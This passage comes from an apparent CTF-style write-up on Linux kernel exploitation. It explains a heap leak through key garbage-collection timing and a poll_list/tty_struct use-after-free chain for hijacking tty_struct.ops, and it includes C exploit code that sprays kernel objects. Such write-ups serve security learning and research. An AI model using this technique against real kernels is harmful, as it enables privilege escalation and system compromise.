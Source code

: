 **A!! Not `unlink()`, but GC(`security/keys/gc.c`) actually frees keys...!** So what we had to do is just waiting for a second before spraying `tty_file_private`? I tried:

![](https://hackmd.io/_uploads/By7vLqpli.png)
![kheap leak success after waiting GC for a second](https://hackmd.io/_uploads/ByoYLq6gs.png)

Seems good~~~~~~~.

# get RIP by overwriting `tty_struct.ops`

We leaked kheap, so next we wanna get RIP. Ofcourse we can sleep well even if we don't get RIP.
Now, we have UAFed `user_key_payload` (and `tty_file_private` on it) in `kmalloc-32`. By re-utilizing this UAF, let's achieve UAF write. Specifically, when `poll_list` have list of `kmalloc-1024 --> kmalloc-32`, we can overwrite `poll_list` in `kmalloc-32` using the UAF, then we can write the addr of `tty_struct(kmalloc-1024)` to `poll_list.next` pointer. If we free `poll_list`, then victim `tty_struct` can be freed. After achieving UAF of `tty_struct`, we can just overwrite `ops` in `tty_struct`. It should work, I wish...!
So coressponding exploit code is below (fancy ready-made~~)

```.c
  // Free `seq_operations`, one of which is `user_key_payload`
  for (int ix = NUM_SEQOPERATIONS - NUM_FREE_SEQOPERATIONS; ix != NUM_SEQOPERATIONS; ++ix) {
    close(seqops_fd[ix]);
  }
  puts("[+] Freeed seq_operations");
  
  // Spray `poll_list` in kmalloc-32, one of which is placed on `user_key_payload`
  assign_to_core(2);
  neverend = 1;
  puts("[+] spraying `poll_list` in kmalloc-32...");
  num_threads = 0;
  for (int ix = 0; ix != NUM_2ND_POLLLIST_ALLOC; ++ix) {
    struct alloc_poll_list_t *arg = malloc(sizeof(struct alloc_poll_list_t));
    arg->fd = just_fd; arg->id = ix;
    arg->timeout_ms = 3000; // must 1000 < timeout_ms, to wait key GC
    arg->num_size = 30 + 2;
    if(pthread_create(&threads[ix], NULL, alloc_poll_list, arg) != 0) errExit("pthread_create");
  }

  // Revoke UAFed key, which is on `poll_list` in kmalloc-32
  puts("[+] Freeing UAFed key...");
  free_key(uafed_key);
  sleep(1);

  // Spray keys on UAFed `poll_list`
  puts("[+] spraying keys in kmalloc-32");
  assert(num_keys == 0);
  {
    char *key_payload = malloc(SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS);
    memset(key_payload, 'X', SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS);
     _alloc_key_prefill_ulong_val = 0xDEADBEEF;

    for (int ix = 0; ix != NUM_2ND_KEY_SPRAY; ++ix) {
      alloc_key(key_payload, SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS, _alloc_key_prefill_ulong);
    }
  }
```
